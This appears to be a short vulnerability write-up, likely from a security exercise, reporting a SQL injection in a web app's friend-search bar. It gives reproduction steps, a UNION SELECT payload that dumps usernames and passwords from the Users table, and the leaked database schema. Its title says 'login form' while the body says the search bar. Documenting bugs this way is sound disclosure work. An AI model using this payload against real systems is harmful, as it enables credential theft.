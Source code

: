 # Vulnerability 1: SQL Injection in login form allows to login as admin

- Vulnerability: SQL Injection
- Where: `search bar` in search my friends bar
- Impact: Arbitrary `SELECT` queries on the database

## Steps to reproduce

1. Register
2. Login
3. Navigate to the `'/friends'` endpoint
4. Search for `' union select username, password, 3, 4, 5 from Users; -- `
5. Collect all the passwords

[(POC)](vuln1.py)

## Impact

Severe. This allows the attacker to know all the credentials to all users (including possible admins) and to learn the schema of the DB:

```
Friends(id int, username1 varchar(20), username2 varchar(20));
FriendsRequests(id int, username2 varchar(20), username2 varchar(20));
Post(id int, author varchar(20), content text, type enum, created_at timestamp, updated_at timestamp);
Users(username varchar(20), password varchar(20), name text, about text, photo varchar(255));
```
